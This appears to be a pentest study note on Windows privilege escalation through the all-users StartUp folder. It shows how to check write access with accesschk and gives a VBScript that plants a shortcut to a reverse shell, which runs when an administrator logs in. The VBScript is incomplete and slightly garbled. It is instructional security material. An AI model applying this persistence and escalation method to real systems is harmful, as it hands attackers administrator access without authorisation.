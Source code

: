 # Startup Apps

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users:

```shell
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

{% hint style="info" %}
Note that shortcut files (.lnk) must be used. The following VBScript can be used:
{% endhint %}

```tsconfig
to create a shortcut file:
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.Target
```

#### reverse.lnk is our reverse shell executable.

![](<../../../.gitbook/assets/image (158).png>)

Use accesschk.exe to check permissions on the StartUp directory:

```shell
\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

![](<../../../.gitbook/assets/image (157) (1).png>)

Note that the BUILTIN\Users group has write access to this directory.

Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

![](<../../../.gitbook/assets/image (161) (1).png>)

Run the script using cscript:

```
cscript CreateShortcut.vbs
```

![](<../../../.gitbook/assets/image (162).png>)

no we wait for the admin to login:

![](<../../../.gitbook/assets/image (156) (1).png>)
